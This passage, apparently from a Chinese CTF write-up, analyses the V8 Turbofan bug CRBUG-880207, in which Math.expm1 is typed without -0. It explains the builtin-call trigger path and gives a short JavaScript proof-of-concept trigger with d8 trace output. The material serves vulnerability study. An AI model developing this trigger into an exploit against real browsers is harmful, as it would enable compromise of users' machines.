 可以看到`Float64Expm1`节点的`Type`是`Number`，这个类型是包含`-0`的，这就有点难办了

观察题目给的patch可以看到，其实只是补了`typer.cc`，而没有`operation-typer.cc`，所以这个漏洞只能在builtin函数的调用过程中触发（注意看上面提到的谷歌打的三个补丁，第一个补丁补了`operation-typer.cc`，第二个和第三个补丁补了`typer.cc`，这两个文件对应着两个触发路径，题目的patch把`typer.cc`这个文件的漏洞给引入了）

上面那篇文章的作者提到了当我们触发一次优化之后（这一步优化可以不需要），传入一个非Number类型的参数，就可以触发`deoptimization`，，此时转交给Ignition解释器，然后再主动触发一次优化，那么Turbofan的反馈数据里就会有`Number`和`非Number`两种信息，在优化的时候就会使用能够处理多种类型数据的builtin函数，也就能触发一个builtin函数调用了

所以Poc如下
```
function foo(x) {
    return Object.is(Math.expm1(x), -0);
}

console.log(foo(0));

for(var i = 0; i < 100000; i++)
    foo("0");

console.log(foo(-0));
```

同样的，我们来看跟踪过程
```
➜  x64.debug git:(CRBUG-880207) ./d8 --allow-natives-syntax --trace-turbo Poc.js
Concurrent recompilation has been disabled for tracing.
---------------------------------------------------
Begin compiling method foo using Turbofan
---------------------------------------------------
Finished compiling method foo using Turbofan
---------------------------------------------------
Begin compiling method foo using Turbofan
---------------------------------------------------
Finished compiling method foo using Turbofan
---------------------------------------------------
Begin compiling method  using Turbofan
---------------------------------------------------
Finished compiling method  using Turbofan
false
```

在`Typer`阶段，注意看红色框框里的内容，我们可以看到`Math.expm1`的`Type`为`PlainNumber | NaN`，这个`Type`不包含`-0`，右边的节点类型是`MinusZero`也就是`-0`，这两个数据传入`SameValue`节点进行比较，这明显是恒不相等的
